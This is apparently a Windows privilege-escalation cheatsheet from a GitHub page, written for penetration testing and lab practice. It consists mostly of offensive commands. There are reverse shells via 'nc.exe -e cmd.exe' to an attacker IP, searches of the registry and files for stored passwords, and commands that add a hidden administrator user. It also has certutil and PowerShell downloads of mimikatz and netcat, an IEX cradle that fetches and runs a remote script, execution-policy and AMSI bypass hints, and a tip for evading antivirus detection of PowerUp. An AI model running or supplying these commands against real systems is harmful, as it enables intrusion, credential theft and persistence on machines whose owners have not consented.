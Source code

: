 Win PrivEsc Cheatsheet
=====================
work in progress

## Usefull information

- https://gist.github.com/babutzc/f68f5414fc8595ca8f80abbe36d7b946
- https://ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass
- https://github.com/moatn/cheatsheets/blob/master/windowsstuff.md

## Information gathering

### CMD
```
whoami
echo %username%
systeminfo
hostname
net use
net view
net user
net user <username>
net user <username> /domain
net localgroup
set
findstr /C:"<autoElevate>true" 
schtasks /query /fo LIST /v | findstr "tomcat"
```

### Powershell
```
$ExecutionContext.SessionState.LanguageMode
$Env:Path
Get-volume
hostname
get-process
get-service
Get-NetFirewallRule
Get-Childitem
Get-Content
```

### Networking

```
netstat -ano
route print
```

### cleartext passwords?

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml

%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

reg query "HKCU\Software\ORL\WinVNC3\Password"

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Run as

### Execute commands as a different user
Execute commands as different user when stored credentials are availeble (cmd.exe)
```
runas /user:.\username /savecred 'nc.exe -e cmd.exe 10.10.1.2 1234'
```

Execute commands as different user on powershell.
```
$username = "username"
$password = "password1"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
$Session    = New-PSSession -Credential $Credential
Invoke-Command -Session $Session  -ScriptBlock { nc.exe -e cmd.exe 10.10.1.2  1234 }
```

### Adding users

Quickly add a user to the system. If admin privs are also acquired, add the user to the admin group. 
```
net user username password /add
net localgroup administrators username /add
```

## Downloading Files

### Kali
```
python3 -m http.server 80
```
### CMD
```
certutil -urlcache -split -f "http://10.10.14.24/mimikatz.exe" mim.exe
certutil.exe -urlcache -split -f "http://10.10.14.24/mimikatz.exe" %TMP%\mim.exe
```

### Powershell
```
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.24/nc.exe','c:\temp\nc.exe')
powershell.exe -c (Start-BitsTransfer -Source "http://10.10.14.17/nc.exe -Destination C:\temp\nc.exe")
powershell.exe wget "http://10.10.14.24/nc.exe" -outfile "c:\temp\nc.exe"
IEX (new-object System.Net.WebClient).DownloadString('http://10.10.14.24/shell.ps1')
wget
curl -O http://10.10.14.24/nc.exe
powershell -c -e {base64} 
```

### SMB

Setup SMB share to copy files

#### kali
(Make sure you use the correct path to impacket)
```
python3 tools/impacket/examples/smbserver.py DAAN /tmp/DAAN
```
#### win
```
net view \\10.10.14.24
dir \\10.10.14.24\DAAN

#from attacker
copy \\10.10.14.24\DAAN\nc.exe
#to attacker
copy nc.exe \\10.10.14.24\DAAN\nc.exe
```

### Mounting shares (CMD)
```
net use Y: \\10.10.10.25\C$ /USER:username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:FEEST\username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:.\username "password" /PERSISTENT:YES
```

## Powersploit

https://github.com/PowerShellMafia/PowerSploit
Documentation: https://powersploit.readthedocs.io/en/latest/

### PowerUp.ps1
Remove lines 1-9 as some mallware programs seem to flag this script because of these lines.

#### When the script doesn't run
Disable Execution Policy:
```
powershell -ep bypass
```
If a script will not run check for AMSI bypassing

#### Running PowerUp.ps1
```
Import-module PowerUp.ps1
. .\PowerUp.ps1

Invoke-AllChecks
```

## Bloodhound
https://github.com/BloodHoundAD/BloodHound

install on Kali
```
sudo apt-install bloodhound
```
start
```
bloodhound (in terminal)
sudo neo4j console
```
"Bolt enabled on 'ipaddress:port' "

"Remote interface available at: 'ipaddress:port"
Go to address and change the password in bolt (default password is neo4j)

On windows:
download sharphound and upload to victim
https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.exe

```
.\SharpHound.exe
```
Creates a zip, download it to Kali and drag it into BloodHound

Enum Bloodhound
- Search users you owned and mark them (rightclick "mark as owned")
- Click on the lines (right), querries > 
	- "shortest path from owned principals"
	- "shortest path to domain admins"
	- "dcsync rights"
